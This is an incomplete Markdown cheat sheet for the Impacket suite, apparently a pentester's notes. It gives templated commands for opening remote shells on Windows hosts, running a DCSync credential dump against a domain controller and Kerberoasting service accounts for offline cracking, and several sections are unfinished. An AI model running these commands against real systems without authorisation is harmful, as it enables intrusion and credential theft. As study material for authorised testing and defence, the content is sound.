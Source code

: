 Impacket is a suite of tools that is massively useful when compromising Windows hosts.

# Impacket-PSExec
```shell
impacket-psexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine (if user has local administrator rights)
```

# Impacket-WMIExec
```shell
impacket-wmiexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via Windows Management Instrumentation. 
```
WMIExec is marginally more stealthy than PSExec but it has WMI as an obvious prerequisite. 

# Impacket-SMBExec
TODO: Finish

# Impacket-SecretsDump
```shell
impacket-secretsdump -outputfile <hashes outfile> -just-dc <domain>/<user>@<DC_IP> # Perform DCSync attack against a domain controller with Domain Admin credentials or other user creds with DCSync rights. 
```

# Impacket-SMBServer
TODO: Finish

# Impacket-GetUserSPNs
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> # List SPN accounts
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request # Request all TGTs. 
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <SPN> -outputfile out-tgt # Request one TGT and save
```
The `out-tgt` can be cracked with hashcat mode 13100. 

# Impacket-raiseChild
TODO: Write this

# Impacket-ticketer
TODO: Write this

# Impacket-lookupsid
TODO: Write this

Install with apt on Kali and use syntax above

